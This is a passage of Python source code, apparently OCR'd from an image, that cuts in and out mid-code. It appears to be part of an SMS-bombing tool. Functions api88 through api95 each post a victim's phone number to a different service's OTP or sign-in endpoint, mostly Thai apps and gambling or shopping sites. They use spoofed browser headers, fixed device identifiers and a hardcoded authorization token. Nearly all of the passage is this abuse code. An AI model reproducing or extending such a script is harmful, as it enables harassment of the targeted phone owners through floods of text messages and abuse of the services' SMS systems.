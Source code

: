              "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()

    def api88(phone):

        post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone",

             data={"phoneNumber": phone})

    def api89(phone):

        post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams": {"platformId": "android", "deviceType": "h5", "deviceIdKh": "20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1", "termSysVersion": "5.1.1", "termModel": "A37f", "brand": "", "termId": "null", "appType": "6",

             "appVersion": "2.0.0", "pValue": "", "position": {"lon": "null", "lat": "null"}, "bizType": "0000", "appName": "Cash Market", "packageName": "com.cashmarketth.h5", "screenResolution": "720,1280"}, "clientTypeFlag": "h5", "token": "", "phoneNumber": "", "timestamp": "1642479101529", "bizParams": {"phoneNum": phone, "code": "null", "type": 200, "channelCode": "hJ071"}})

    def api90(phone):

        post("https://shopgenix.com/api/sms/otp/", headers=header,

             data=f"mobile_country_id=1&mobile={phone}")

    def api91(phone):

        post("https://api.thaisme.one/smegp/register/request-otp",

             json={"MOBILE": phone})

    def api92(phone):

        post("https://apiv3.slot999ss.com/front/api/register/set/OTP", data=f"phone={phone}", headers={"content-type": "application/x-www-form-urlencoded;charset=UTF-8",

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    def api93(phone):

        post("https://sabuyebuy.com/wp-json/api/v1/get-otp",

             headers=header, json={"msisdn": f"{phone}"})

    def api94(phone):

        post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel": phone, "otp_type": "register"}, headers={

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})

    def api95(phone):

        post("https://id.zilingo.com/api/v1/userVerification/initiate?up_s=B2B_ASIA_MALL&up_cd=v1_eyJjbGllbnRVc2VySWRlbnRpZmljYXRpb24iOnsiYW5vbnltb3VzVXNlcklkT3B0IjoiQUlENTUwMDY3MTIzMjA0NTY2MDkyIiwic2Vzc2lvbklkT3B0IjoiU0lENTUwMDY3MTIzMjA0NTY2MDkyIiwidXNlcklkT3B0IjpudWxsfSwic2NyZWVuT3B0Ijp7InNjcmVlblR5cGUiOiJDQVRFR09SWSIsInNjcmVlbklkIjoiV0NMIiwic2NvcGUiOm51bGx9LCJidXllclJlZ2lvbk9wdCI6IkIyQl9USEEiLCJsb2NhbGVDb2RlIjoidGgiLCJxdiI6eyJjbGllbnQiOiJXZWIiLCJzdWJDbGllbnQiOiJEZXNrdG9wV2ViIiwidmVyc2lvbiI6IjM1LjguNSJ9fQ==",
